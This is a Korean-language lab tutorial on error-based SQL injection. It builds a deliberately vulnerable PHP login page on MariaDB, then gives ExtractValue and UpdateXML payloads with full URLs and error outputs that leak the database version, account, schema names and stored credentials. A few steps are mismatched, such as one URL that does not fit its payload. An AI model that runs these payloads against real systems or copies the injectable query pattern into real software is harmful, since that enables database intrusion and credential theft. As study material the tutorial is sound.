

# Error based SQL Injection

SQL 쿼리 중 의도적으로 오류를 발생시키고 에러 메세지를 통해 정보를 획득한다.

쿼리의 오류는 발생하지 않지만, 논리적 에러를 이용하여 프로그램의 흐름을 바꾼다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [ExtractValue](#ExtractValue)**

 - [DBMS 버전 확인(ExtractValue)](#DBMS-버전-확인(ExtractValue))

 - [DBMS 계정 확인](#DBMS-계정-확인)

 - [데이터베이스 이름 확인](#데이터베이스-이름-확인)

 - [테이블 이름 확인](#테이블-이름-확인)

 - [칼럼 이름 확인](#칼럼-이름-확인)

 - [데이터 확인](#데이터-확인)

**3. [UpdateXML](#UpdateXML)**

 - [DBMS 버전 확인](#DBMS-버전-확인)

 - [DBMS 계정 확인](#DBMS-계정-확인)

 - [데이터베이스 이름 확인](#데이터베이스-이름-확인)

 - [테이블 이름 확인](#테이블-이름-확인)

 - [칼럼 이름 확인](#칼럼-이름-확인)

 - [데이터 확인](#데이터-확인)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| mariadb       | 10.3.34-0ubuntu0.20.04.1  |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php mariadb-server php-mysql
```

root비밀번호를 설정하고 데이터베이스, 테이블을 생성한 뒤 데이터를 넣자.

```sh
root@ubuntu:~# mysql_secure_installation
Enter current password for root (enter for none):
Set root password? [Y/n] Y
New password:
Re-enter new password:
Remove anonymous users? [Y/n] Y
Disallow root login remotely? [Y/n] n
Remove test database and access to it? [Y/n] Y
Reload privilege tables now? [Y/n] Y
root@ubuntu:~# mysql -u root -p'root'
MariaDB [(none)]> create database test;
MariaDB [(none)]> use test;
MariaDB [test]> create table user (id varchar(30), pw varchar(30));
MariaDB [test]> insert into user(id,pw) values('admin','helloworld');
```

생성한 데이터베이스로 접근할 수 있는 권한을 부여하자.

```sh
MariaDB [(none)]> grant all privileges on test.* to 'root'@localhost identified by 'root';
MariaDB [(none)]> flush privileges;
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=mysqli.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
	if (isset($_GET['userid']) && isset($_GET['password'])) {
		$conn = mysqli_connect("localhost", "root", "root", "test");
		if (!$conn) die("mysql connect error : ".mysqli_connect_error($conn));
		$sql = "SELECT id, pw FROM user WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
		$result = mysqli_query($conn, $sql);
		if (!result) echo "mysql query error : ".mysqli_error($conn);
		else {
			$row = mysqli_fetch_array($result);
			if ($row) echo "Welcome ".$row[id];
			else echo "Login Failed : ".mysqli_error($conn);
			mysqli_close($conn);
		}
	} else {
?>
<html>
	<body>
		<form action="/index.php" method="get">
			<label>ID : </label><input type="text" name="userid" required>
			<label>PW : </label><input type="password" name="password" required>
			<input type="submit" value="login">
		</form>
	</body>
</html>
<?php
	}
?>
```

# **ExtractValue**

ExtractValue함수의 인자 중 두번째 인자의 형식오류로 다양한 정보를 확인할 수 있다.

## **DBMS 버전 확인(ExtractValue)**

에러 메세지에 DBMS의 버전을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,VERSION()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CVERSION%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':10.3.34-MariaDB-0ubuntu0.20....'

## **DBMS 계정 확인**

에러 메세지에 DBMS 접속 계정을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,USER()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CUSER%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':root@localhost'

## **데이터베이스 이름 확인**

에러 메세지에 데이터베이스 이름을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,DATABASE()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CDATABASE%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':test'

## **테이블 이름 확인**

에러 메세지에 사용하고 있는 데이터베이스의 테이블 이름을 출력하도록 유도해보자.

데이터베이스의 테이블은 2개 이상일 수 있으니 LIMIT으로 1개씩 출력한다.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema="test" LIMIT 0,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+TABLE_NAME+FROM+information_schema.TABLES+WHERE+table_schema%3D%22test%22+LIMIT+0%2C1%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: '::user'

## **칼럼 이름 확인**

에러 메세지에 사용하고 있는 데이터베이스의 칼럼의 수를 출력하도록 유도해보자.

user 테이블은 mysql 데이터베이스의 기본 테이블에도 속해 있어 TABLE_SCHEMA를 조건에 걸어 확실하게 원하는 테이블의 칼럼 정보를 획득한다.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test")))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COUNT%28COLUMN_NAME%29+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':2'

LIMIT 0,1로 첫번째 칼럼 이름을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test" LIMIT 0,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COLUMN_NAME+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22+LIMIT+0%2C1%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':id'

LIMIT 1,1로 두번째 칼럼 이름을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME="user" AND TABLE_SCHEMA="test" LIMIT 1,1)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COLUMN_NAME+FROM+information_schema.COLUMNS+WHERE+TABLE_NAME%3D%22user%22+AND+TABLE_SCHEMA%3D%22test%22+LIMIT+1%2C1%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':pw'

## **데이터 확인**

에러 메세지에 사용하고 있는 테이블의 데이터 수를 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT COUNT(id) FROM user)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+COUNT%28id%29+FROM+user%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':1'

데이터가 1개이니 LIMIT을 사용할 필요가 없고 데이터를 출력하자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,(SELECT CONCAT(id,0x3a,pw) FROM user)))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2C%28SELECT+CONCAT%28id%2C0x3a%2Cpw%29+FROM+user%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':admin:helloworld'


쿼리 에러 등 SQL 관련 에러를 발생시켜 정보를 획득해볼 수 있다.

ID에 ' and hack()#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?userid=%27+and+hack%28%29%23&password=123

데이터베이스 이름이 test임을 알 수 있게 된다.


ID에 ' group by having a#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?userid=%27+group+by+having+a%23&password=123

SQL 쿼리 중 ID가 들어가는 뒤의 컬럼명을 알 수 있게 된다.



논리적 에러를 이용하여 테이블의 가장 먼저 출력되는 값을 얻을 수 있다.

ID에 ' or true#을 넣고 PW에 아무값을 넣어보자.

    http://192.168.0.58/index.php?id=%27+group+by+having+a%23&pw=123


# **UpdateXML**

UpdateXML함수의 인자 중 두번째 인자의 형식오류로 다양한 정보를 확인할 수 있다.

## **DBMS 버전 확인**

에러 메세지에 DBMS의 버전을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND UpdateXML(0,CONCAT(0x3a,VERSION()),0)# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+UpdateXML%280%2CCONCAT%280x3a%2CVERSION%28%29%29%2C0%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':10.3.34-MariaDB-0ubuntu0.20....'